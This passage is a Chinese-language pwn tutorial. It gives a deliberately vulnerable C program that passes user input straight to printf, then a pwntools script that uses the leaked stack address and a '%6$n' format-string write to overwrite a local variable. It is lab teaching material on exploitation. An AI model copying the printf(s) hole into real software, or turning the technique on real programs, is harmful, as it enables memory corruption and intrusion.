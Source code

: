 现有如下程序：

```c
/* example/overflow/overflow.c */
#include <stdio.h>
int a = 123, b = 456;
int main() {
  int c = 789;
  char s[100];
  printf("%p\n", &c);
  scanf("%s", s);
  printf(s);
  if (c == 16) {
    puts("modified c.");
  } else if (a == 2) {
    puts("modified a for a small number.");
  } else if (b == 0x12345678) {
    puts("modified b for a big number!");
  }
  return 0;
}
```

我们来修改栈上变量c的值。首先使用之前的手段判断偏移：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231109161123800.png)

发现是第六个参数。由于程序本身给出了c变量的地址，那么我们直接将地址写入第六个位置即可。

```python
from pwn import *
context(arch='i386',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']

elf = ELF('./overwrite')
libc = elf.libc
r = elf.process()

leak = int(r.recv(10),16)

payload = flat([
    leak,
    '%012d'
    '%6$n'
])

r.sendline(payload)

r.interactive()
```

![image-20231109162944216](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231109162944216.png)
